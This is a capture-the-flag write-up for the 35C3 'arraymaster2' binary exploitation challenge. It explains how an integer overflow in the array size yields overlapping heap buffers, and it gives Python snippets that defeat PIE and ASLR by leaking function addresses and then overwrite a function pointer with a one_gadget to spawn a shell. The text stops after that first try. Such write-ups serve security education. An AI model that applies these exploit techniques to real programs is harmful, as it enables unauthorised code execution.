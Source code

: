 # arraymaster2
PWN

## Description:
> We improved our security with more mitigations.

A binary file and a libc file were attached.

## Solution:

This challenge is similar to [arraymaster1](arraymaster1.md), but `spawn_shell` was removed and several runtime protections were activated:
```console
root@kali:/media/sf_CTFs/35c3ctf/arraymaster2# checksec.sh -f ./arraymaster2
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   89 Symbols      Yes     2               4       ./arraymaster2

root@kali:/media/sf_CTFs/35c3ctf/arraymaster2# checksec.sh -f ../arraymaster1/arraymaster1
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   89 Symbols      Yes     2               4       ../arraymaster1/arraymaster1
```

The basic vulnerability still exists, meaning we can allocate a buffer of type 64, size (0xFFFFFFFFFFFFFFFF+1)/8 and cause the program to call `malloc(0)` - allowing us to use one buffer to access the contents of another buffer. However, this time we will have to work a bit harder to spawn a shell.

First, we have PIE enabled (Position-Independent Executable), so we first need to calculate the binary base address by subtracting the runtime address of a function from the compile-time address:
```python
int64_set_runtime_address = get_entry(p, "A", 8)
e.address = int64_set_runtime_address - e.symbols["int64_set"] 
```

To get the base address of LibC, we do the same with a LibC function:
```python
set_entry(p, "A", 6, e.got["free"])
free_runtime_address = get_entry(p, "B", 0)

libc.address = free_runtime_address - libc.symbols["free"]
assert(libc.address & 0xFFF == 0)
```

Now, the first thing I tried in order to spawn a shell was to override the address of `int64_set` with an address from one_gadget:
```python
set_entry(p, "A", 8, get_one_gadget(libc.address, args.remote) )
set_entry(p, "B", 0, 0)
```
